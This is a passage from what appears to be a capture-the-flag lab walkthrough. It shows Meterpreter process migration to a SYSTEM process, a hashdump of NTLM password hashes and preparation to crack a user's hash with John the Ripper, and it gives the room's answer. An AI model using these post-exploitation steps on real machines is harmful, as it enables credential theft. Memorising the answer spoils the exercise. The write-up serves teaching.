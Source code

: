 ```
 708   592   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 816   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 884   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 932   692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1080  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
```

Migrate to a stable SYSTEM process (like svchost.exe with PID 816):

```bash
migrate 816
```

**Output:**
```
[*] Migrating from 2832 to 816...
[*] Migration completed successfully.
```

## Task 4 - Cracking the Password

With SYSTEM privileges, we can dump password hashes and crack them to reveal user credentials.

### Step 1: Dump Password Hashes

In our Meterpreter session, dump the system password hashes:

```bash
hashdump
```

**Output:**
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

We can see there's a non-default user named "Jon" with a hash that looks crackable.

**Answer:** What is the name of the non-default user? **Jon**

### Step 2: Crack the Hash

Background the Meterpreter session and save Jon's hash to a file:

```bash
background
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > hash.txt
```

Use John the Ripper to crack the NTLM hash:
